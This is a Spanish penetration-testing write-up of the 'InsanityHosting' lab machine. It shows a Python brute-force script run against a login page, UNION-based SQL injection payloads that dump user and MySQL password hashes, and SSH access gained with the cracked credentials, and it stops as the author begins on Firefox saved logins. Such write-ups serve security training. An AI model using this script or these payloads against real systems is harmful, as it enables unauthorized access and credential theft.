+++
author = "Andrés Del Cerro"
title = "PGLabs: InsanityHosting Writeup | Hard"
date = "2025-01-30"
description = ""
tags = [
    "PGLabs",
    "InsanityHosting",
    "Writeup",
    "Cybersecurity",
    "Penetration Testing",
    "CTF",
    "Reverse Shell",
    "Privilege Escalation",
    "RCE",
    "Exploit",
    "Linux",
    "FTP Enumeration",
    "HTTP Enumeration",
    "Python Scripting",
    "Scripting",
    "Bruteforce",
    "Credentials Reuse",
    "SQL Injection",
    "Reflected SQL Injection",
    "Hash Cracking",
    "Password Cracking",
    "Cracking",
    "Dumping Firefox logins.json and key4.db",
    "Decrypting Firefox stored credentials"
]

+++

# PGLabs: InsanityHosting Writeup

Welcome to my detailed writeup of the hard difficulty machine **"InsanityHosting"** on PGLabs. This writeup will cover the steps taken to achieve initial foothold and escalation to root.

# TCP Enumeration

```console
rustscan -a  192.168.178.124 --ulimit 5000 -g
192.168.178.124 -> [21,22,80]
```

```console
nmap -p21,22,80 -sCV 192.168.178.124 -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-30 02:40 CET
Nmap scan report for 192.168.178.124
Host is up (0.032s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:192.168.45.167
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.2 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: ERROR
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 85:46:41:06:da:83:04:01:b0:e4:1f:9b:7e:8b:31:9f (RSA)
|   256 e4:9c:b1:f2:44:f1:f0:4b:c3:80:93:a9:5d:96:98:d3 (ECDSA)
|_  256 65:cf:b4:af:ad:86:56:ef:ae:8b:bf:f2:f0:d9:be:10 (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/7.2.33)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/7.2.33
|_http-title: Insanity - UK and European Servers
| http-methods:
|_  Potentially risky methods: TRACE
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.24 seconds
```

# UDP Enumeration

```console
sudo nmap --top-ports 1500 -sU --min-rate 5000 -n -Pn 192.168.178.124 -oN allPorts.UDP
[sudo] password for kali:
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-30 02:40 CET
Nmap scan report for 192.168.178.124
Host is up (0.056s latency).
Not shown: 1495 open|filtered udp ports (no-response)
PORT      STATE    SERVICE
27209/udp filtered unknown
31882/udp filtered unknown
32773/udp filtered sometimes-rpc10
44253/udp filtered unknown
44946/udp filtered unknown

Nmap done: 1 IP address (1 host up) scanned in 0.89 seconds
```

# FTP Enumeration
Vemos que existe un servicio FTP versión `vsftpd 3.0.2`, esta versión aparentemente tiene dos vulnerabilidades que haya encontrado por Google, una de denegación de servicio y otra para poder saltarse el acceso restringido a los recursos.



Igualmente, según el escaneo de `nmap` hemos visto que podemos iniciar sesión de forma anónima a este servicio.
```console
ftp anonymous@192.168.178.124
Connected to 192.168.178.124.
220 (vsFTPd 3.0.2)
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||22007|).
ftp: Can't connect to `192.168.178.124:22007': No route to host
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        0               6 Apr 01  2020 pub
226 Directory send OK.
```

Vemos un recurso `pub` el cual está vacío.
```console
ftp> ls -la
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        0               6 Apr 01  2020 .
drwxr-xr-x    3 0        0              17 Aug 16  2020 ..
226 Directory send OK.
```

No puedo subir archivos, así que por ahora no podemos hacer mucha cosa.
```console
ftp> put test.txt
local: test.txt remote: test.txt
229 Entering Extended Passive Mode (|||21087|).
ftp: Can't connect to `192.168.178.124:21087': No route to host
200 EPRT command successful. Consider using EPSV.
550 Permission denied.
```

# HTTP Enumeration
`whatweb` nos reporta un dominio `insanityhosting.vm`, lo añadimos al `/etc/hosts`
```console
whatweb http://192.168.178.124
http://192.168.178.124 [200 OK] Apache[2.4.6], Bootstrap, Country[RESERVED][ZZ], Email[hello@insanityhosting.vm], HTML5, HTTPServer[CentOS][Apache/2.4.6 (CentOS) PHP/7.2.33], IP[192.168.178.124], JQuery, PHP[7.2.33], Script, Title[Insanity - UK and European Servers], X-UA-Compatible[IE=edge]
```

Así se ve el sitio web principal.


En el sitio web principal vemos una redirección a un recurso `/monitoring`, pero primero vamos a fuzzear por recursos interesantes y encontramos varias cosas.

```console
feroxbuster -u http://insanityhosting.vm/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -d 1 -t 100
....
301      GET        7l       20w      239c http://insanityhosting.vm/data => http://insanityhosting.vm/data/
301      GET        7l       20w      238c http://insanityhosting.vm/css => http://insanityhosting.vm/css/
301      GET        7l       20w      237c http://insanityhosting.vm/js => http://insanityhosting.vm/js/
301      GET        7l       20w      238c http://insanityhosting.vm/img => http://insanityhosting.vm/img/
301      GET        7l       20w      242c http://insanityhosting.vm/webmail => http://insanityhosting.vm/webmail/
301      GET        7l       20w      240c http://insanityhosting.vm/fonts => http://insanityhosting.vm/fonts/
301      GET        7l       20w      245c http://insanityhosting.vm/monitoring => http://insanityhosting.vm/monitoring/
200      GET      169l      373w     5022c http://insanityhosting.vm/js/default-assets/active.js
301      GET        7l       20w      239c http://insanityhosting.vm/news => http://insanityhosting.vm/news/
```

### `/webmail` Basic numeration
En el recurso `/webmail` vemos un panel de autenticación de un webmail llamado `SquirrelMail` de versión `1.4.22`.

> **SquirrelMail** is a project that aims to provide both a [web-based email client](https://en.wikipedia.org/wiki/Webmail "Webmail") and a [proxy server](https://en.wikipedia.org/wiki/Proxy_server "Proxy server") for the [IMAP](https://en.wikipedia.org/wiki/IMAP "IMAP") protocol.





Encontramos [un exploit de tipo RCE](https://www.exploit-db.com/exploits/41910) pero necesitamos credenciales de usuario las cuales por ahora no disponemos de ellas.

Buscando credenciales por defecto no encontré nada, así que por ahora a seguir enumerando.

### `/monitoring` Basic Enumeration

Vemos un panel de autenticación un poco primitivo, por lo cual probablemente no forme parte de ningún CMS ni proyecto open-source.


También podemos ver que se está utilizando PHP.

### `/news` Basic Enumeration
Vemos un mensaje diciendo que han creado un servicio gratuito de monitorización, todavía no se para que, pero vemos también que probablemente exista un usuario en la plataforma llamado `otis`


### Creating bruteforce script for `/monitoring`
He creado un pequeño script para hacer fuerza bruta a este panel de control ya que no he encontrado nada, ni tampoco he visto que el panel de inicio de sesión sea vulnerable a SQL Injection.

El script es el siguiente.
```python
#!/usr/bin/python3
import requests

LOGIN_PAGE_LENGTH = 4848
USERNAME = "otis"
PASSWORD_DICTIONARY = "/usr/share/wordlists/rockyou.txt"
LOGIN_ENDPOINT = "http://insanityhosting.vm/monitoring/index.php"

def brute():
    with open(PASSWORD_DICTIONARY, "r", encoding="latin-1") as file:
        for line in file:
            pwd = line.strip()
            r = requests.post(LOGIN_ENDPOINT, data={"username": USERNAME, "password": pwd})
            if LOGIN_PAGE_LENGTH != len(r.text):
                print(f"[+] {USERNAME}:{pwd}")
if __name__ == "__main__":
    brute()
```

Y vemos unas credenciales válidas.
```console
python3 brute.py
[+] otis:123456
```

Podemos iniciar sesión y vemos lo siguiente.


Podemos agregar nuestra máquina y vemos que al cabo de unos segundos recibimos un paquete ICMP, con esto se deduce que una máquina está activa o no.


```console
sudo tcpdump icmp -i tun0
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
03:33:01.001550 IP insanityhosting.vm > 192.168.45.167: ICMP echo request, id 8441, seq 1, length 64
03:33:01.001605 IP 192.168.45.167 > insanityhosting.vm: ICMP echo reply, id 8441, seq 1, length 64
```

Lateralmente, podemos comprobar que esta credencial es válida para el servicio de SquirrelMail pero no vemos nada..


Probando el exploit que hemos visto antes vemos que parece que el servicio no es vulnerable.
```console
./exploit.sh htp://192.168.178.124/webmail


[*] Enter SquirrelMail user credentials
user: otis
pass:

[*] Logging in to SquirrelMail at htp://192.168.178.124/webmail


[*] Uploading Sendmail config
Something went wrong. Failed to upload the sendmail file.
```

### Reflected SQL Injection in SquirrelMail
Sin embargo nos damos cuenta de una cosa interesante, si editamos uno de los hosts ya añadimos y forzamos un error.


Se mandará un correo de forma de traza para reportar que este host está caído, y vemos algo interesante, registros de los varios "pings" que se ha hecho al host, pero vemos que los registros están en una especie de formato "virgen"


Viendo el formato anterior, supuse que se está haciendo una consulta a base de datos para insertar el estado del host, y luego se debe de estar haciendo otra consulta para recuperar los datos y después mandar el correo, por lo cual podemos intentar una inyección SQL simple para ver todos los registros.


Sin embargo, tenemos que usar comillas dobles ya que parece que la consulta se está haciendo con estas comillas.


Cambiamos el nombre del host...


Y estábamos en lo cierto, este parámetro es SQL Inyectable por lo cual nos podemos aprovechar de esto para poder recuperar información de la base de datos.


Como es una inyección un poco rara, no vamos a utilizar `sqlmap`, por lo cual primero vamos a enumerar cual es el DBMS que se está utilizando.

Lo bueno es que sabemos cuantas columnas se están utilizando ya que parece que se nos está devolviendo la respuesta íntegra del servidor, por lo cual tenemos 4 columnas, igualmente lo debemos de comprobar.


Ahora vamos a comprobar el DBMS, vamos a probar con `@@version` la cual reporta la versión utilizada en `MySQL` que es la DBMS mas típica.


Ahora que sabemos el DBMS, podemos continuar, por lo cual vamos a ver que bases de datos hay consultando la tabla `information_schema.schemata`.

Como se nos está reportando la consulta entera, no hace falta que utilicemos `group_concat()` para mostrar todos los resultados en una misma línea. 


***Payload:***
```
test" UNION SELECT SCHEMA_NAME,2,3,4 FROM INFORMATION_SCHEMA.SCHEMATA-- -
```

Aunque obviamente, también podemos hacerlo.


***Payload:***
```
test" UNION SELECT group_concat(SCHEMA_NAME),2,3,4 FROM INFORMATION_SCHEMA.SCHEMATA-- -
```

La base de datos que me interesa es la de `monitoring`, así que vamos a hacer uso de la tabla `information_schema.tables` para ver las tablas de esta base de datos.


***Payload:***
```
test" UNION SELECT group_concat(TABLE_NAME),2,3,4 FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='monitoring'-- -
```

Vemos vamos tablas, la tabla `users` es la que mas interesante se ve, por lo cual vamos a ver que columnas tiene esta tabla haciendo uso de la tabla `information_schema.columns`.


***Payload:***
```
test" UNION SELECT group_concat(TABLE_NAME, ' - ', COLUMN_NAME),2,3,4 FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema='monitoring' AND table_name='users' -- -
```

Vemos los campos que nos interesa, por lo cual ahora simplemente tenemos que recuperarlos.


***Payload:***
```
test" UNION SELECT group_concat(email,':',username, ':',password,'//'),2,3,4 FROM monitoring.users-- -
```

Vemos que tenemos los hashes de un usuario `admin`, de un usuario `nicholas` y de `otis` que supuestamente este hash correspondería a la cadena `123456`.

Revisando estos hashes en [hashes.com](https://hashes.com) vemos que solo se ha encontrado el hash de `otis` y podemos ver que corresponde a su credencial, `123456`


### Dumping `mysql.user` and getting SSH session
Entonces, ¿estamos en el mismo punto?
Realmente sí, pero aun nos queda comprobar los usuarios del servicio MySQL, estos usuarios se almacenan en la tabla `mysql.user`, aquí se almacenan los usuarios y una columna llamada `authentication_string` que es el hash del usuario en formato SHA-1.
[Leer para mas información](https://phoenixnap.com/kb/mysql-show-users)


***Payload:***
```
test" UNION SELECT group_concat(user,':',authentication_string,'//'),2,3,4 FROM mysql.user-- -
```

# Foothold
Vemos un hash para un usuario llamado `elliot`, comprobando este hash en [hashes.com](https://hashes.com) vemos que corresponde a la credencial `elliot123`


Y con este combo, conseguimos acceso mediante el SSH.
```console
sshpass -p 'elliot123' ssh elliot@192.168.178.124
[elliot@insanityhosting ~]$ id
uid=1003(elliot) gid=1003(elliot) groups=1003(elliot)
```

Vemos varios usuarios a nivel de sistema.
```console
[elliot@insanityhosting ~]$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
admin:x:1000:1000::/home/admin:/bin/bash
nicholas:x:1002:1002::/home/nicholas:/bin/bash
elliot:x:1003:1003::/home/elliot:/bin/bash
monitor:x:1004:1004::/home/monitor:/bin/bash
```

Podemos ver la flag de usuario.
```console
[elliot@insanityhosting ~]$ cat local.txt
95065d8e0b86...
```

# Privilege Escalation
## ¿Firefox?
Rápidamente vi una cosa extraña, el directorio `.mozilla`, esto significa que esta máquina tiene instalada el navegador Firefox, un tanto extraño para un CTF, ¿no?


Efectivamente, `firefox` está instalado.
```console
[elliot@insanityhosting bin]$ which firefox
/usr/bin/firefox
```

Con `firefox -v` podemos ver la versión de Firefox instalada pero no encontré ningún exploit público para esta versión.
```console
[elliot@insanityhosting bin]$ firefox -v
Failed to open connection to "session" message bus: Unable to autolaunch a dbus-daemon without a $DISPLAY for X11
Running without a11y support!
Mozilla Firefox 68.11.0esr
```

## Dumping Firefox stored credentials
Esto me recordó a la recuperación de evidencias en la foresia digital, así que, ¿por qué no probamos a ver las cookies y las contraseñas almacenadas en firefox?

> The user's profile for Firefox is kept under `~/.mozilla/firefox/*.default/`. It contains cache, addons, user settings, etc.
